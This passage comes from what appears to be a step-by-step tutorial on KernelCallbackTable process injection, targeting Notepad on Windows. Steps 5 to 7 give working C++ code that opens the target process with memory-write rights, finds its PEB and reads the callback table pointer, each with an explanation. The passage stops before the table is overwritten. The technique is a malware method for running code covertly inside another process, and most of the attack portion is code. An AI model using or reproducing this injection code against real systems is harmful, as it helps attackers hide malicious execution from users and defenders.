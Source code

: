 **Detailed Explanation**  
- **FindWindow** searches for Notepad’s window class by name and locates its handle. If the handle is found, `GetWindowThreadProcessId` retrieves the associated process ID.
- This process ID is necessary for opening a handle to access Notepad’s memory directly.

### Step 5 - Opening a Handle to the Target Process

With the process ID, the code opens a handle to Notepad. This handle allows direct access to the process’s memory, essential for injection.

```cpp
HANDLE hProcess = OpenProcess( PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, FALSE, pid );
if ( !hProcess ) {
    printf( "[-] Failed to open target process. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[+] Process Handle: 0x%p\n", hProcess );
```

**Detailed Explanation**  
- **OpenProcess** opens a handle with permissions for memory read, write, and query operations, allowing the injector to interact with Notepad’s memory.

### Step 6 - Retrieving the PEB Address

`NtQueryInformationProcess` is used to retrieve the PEB address of the target process. The PEB contains the Kernel Callback Table, which is the focus of modification in this injection technique.

```cpp
PROCESS_BASIC_INFORMATION pbi;
ULONG returnLength;
NTSTATUS status = NtQueryInformationProcess( hProcess, ProcessBasicInformation, &pbi, sizeof( pbi ), &returnLength );
if ( status != 0 ) {
    printf( "[-] Failed to query process information. NTSTATUS: 0x%lx\n", status );
    return -1;
}
PVOID PebBaseAddress = pbi.PebBaseAddress;
printf( "[*] PEB Address: 0x%p\n", PebBaseAddress );
```

**Detailed Explanation**  
- **NtQueryInformationProcess** fills in the `PROCESS_BASIC_INFORMATION` structure, including `PebBaseAddress`, giving access to the PEB for further manipulation of the Kernel Callback Table.

### Step 7 - Reading the Kernel Callback Table

With the PEB address, the code reads the Kernel Callback Table’s memory address, allowing modification of function pointers within this table to control callbacks.

```cpp
PVOID KernelCallbackTable;
SIZE_T bytesRead = 0;
if ( !ReadProcessMemory( hProcess, ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ), &KernelCallbackTable, sizeof( PVOID ), &bytesRead ) ) {
    printf( "[-] Failed to read KernelCallbackTable. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[*] KernelCallbackTable Address: 0x%p\n", KernelCallbackTable );
```
